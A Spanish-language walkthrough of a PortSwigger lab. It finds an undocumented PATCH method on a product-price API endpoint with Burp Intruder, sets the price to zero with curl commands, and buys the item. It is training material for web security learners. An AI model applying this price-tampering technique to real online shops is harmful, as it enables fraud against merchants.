 ```yaml
---
title: "Finding and exploiting an unused API endpoint"
description: "Laboratorio de Portswigger sobre API Testing"
date: 2025-02-16 12:27:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - API Testing
tags:
  - Portswigger Labs
  - API Testing
  - Finding and exploiting an unused API endpoint
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Para `resolver` el laboratorio, debemos explotar un `endpoint oculto de la API` para comprar una `Lightweight l33t Leather Jacket`. Podemos `iniciar sesión` en nuestra propia cuenta utilizando las credenciales `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/API-Testing-Lab-3/image_1.png)

Pulsamos sobre `My account` y nos `logueamos` utilizando las credenciales `wiener:peter`

![](/assets/img/API-Testing-Lab-3/image_2.png)

Si nos `abrimos` el `código fuente` de la `web` nos encontramos estos

![](/assets/img/API-Testing-Lab-3/image_3.png)

Si accedemos a `https://0a05009004d6f6e6801453ce00a2008e.web-security-academy.net/resources/js/api/productPrice.js` vemos este contenido

```
const Container = class {
    constructor(message, innerClasses, outerClasses) {
        this.message = message;
        this.innerClasses = innerClasses;
        this.outerClasses = outerClasses;
    }

    #build() {
        const outer = document.createElement('div');
        outer.setAttribute('class', this.outerClasses.join(' '))

        const inner = document.createElement('p');
        inner.setAttribute('class', this.innerClasses.join(' '));
        inner.innerHTML = this.message;

        outer.appendChild(inner);

        return outer;
    }

    static Error(message) {
        return new Container(message, ['is-warning'], ['error-message', 'message-container']).#build();
    }

    static ProductMessage(message) {
        return new Container(message, ['product-messaging-content'], ['product-messaging-banner', 'message-container']).#build();
    }

    static RemoveAll() {
        [...document.getElementsByClassName('message-container')].forEach(e => e.parentNode.removeChild(e));
    }
};

const getAddToCartForm = () => {
    return document.getElementById('addToCartForm');
};

const setPrice = (price) => {
    document.getElementById('price').innerText = price;
};

const showErrorMessage = (target, message) => {
    Container.RemoveAll();
    target.parentNode.insertBefore(Container.Error(message), target);
};

const showProductMessage = (target, message) => {
    Container.RemoveAll();
    target.parentNode.insertBefore(Container.ProductMessage(message), target);
};

const handleResponse = (target) => (response) => {
    if (response.error) {
        showErrorMessage(target, `Failed to get price: ${response.type}: ${response.error} (${response.code})`);
    } else {
        setPrice(response.price);
        if (response.message) {
            showProductMessage(target, response.message);
        }
    }
};

const loadPricing = (productId) => {
    const url = new URL(location);
    fetch(`//${url.host}/api/products/${encodeURIComponent(productId)}/price`)
        .then(res => res.json())
        .then(handleResponse(getAddToCartForm()));
};

window.onload = () => {
    const url = new URL(location);
    const productId = url.searchParams.get('productId');
    if (url.pathname.startsWith("/product") && productId != null) {
        loadPricing(productId);
    }
};
```

Pulsamos sobre `View details > Add to cart` para añadir un producto a nuestro carrito

![](/assets/img/API-Testing-Lab-3/image_4.png)

Si nos abrimos `Burpsuite` y nos dirigimos a la extensión `Logger ++` vemos que al `añadir` un `producto` al `carrito` se hace una petición a `/api/products/1/price`

![](/assets/img/API-Testing-Lab-3/image_5.png)

`Mandamos` la `petición` al `Intruder` y marcamos `GET`

![](/assets/img/API-Testing-Lab-3/image_6.png)

`Añadimos` el `payload` llamado `HTTP verbs`

![](/assets/img/API-Testing-Lab-3/image_7.png)

`Inspeccionamos` las `respuestas` recibidas y vemos un `código de estado 400` con esta `respuesta`

![](/assets/img/API-Testing-Lab-3/image_8.png)

`Enviamos` esta `petición` y nos responde que nos falta un `parámetro` en el `body`

```
# curl -X PATCH -s --cookie 'session=FAsAkXfF7a0bDzIPfF7Pwtsf7xTczZUQ' -H 'Content-Type: application/json' https://0a05009004d6f6e6801453ce00a2008e.web-security-academy.net/api/products/1/price --data '{}'          
{"type":"ClientError","code":400,"error":"'price' parameter missing in body"}  
```

`Modificamos` el `precio` del `artículo` aparentemente

```
# curl -X PATCH -s --cookie 'session=FAsAkXfF7a0bDzIPfF7Pwtsf7xTczZUQ' -H 'Content-Type: application/json' https://0a05009004d6f6e6801453ce00a2008e.web-security-academy.net/api/products/1/price --data '{"price":0}'         
{"price":"$0.00"} 
```

Si nos `dirigimos` a la `web` podemos confirmarlo

![](/assets/img/API-Testing-Lab-3/image_9.png)

`Pulsamos` sobre `Place Order` y `compramos` el `artículo`

![](/assets/img/API-Testing-Lab-3/image_10.png)

![](/assets/img/API-Testing-Lab-3/image_11.png)
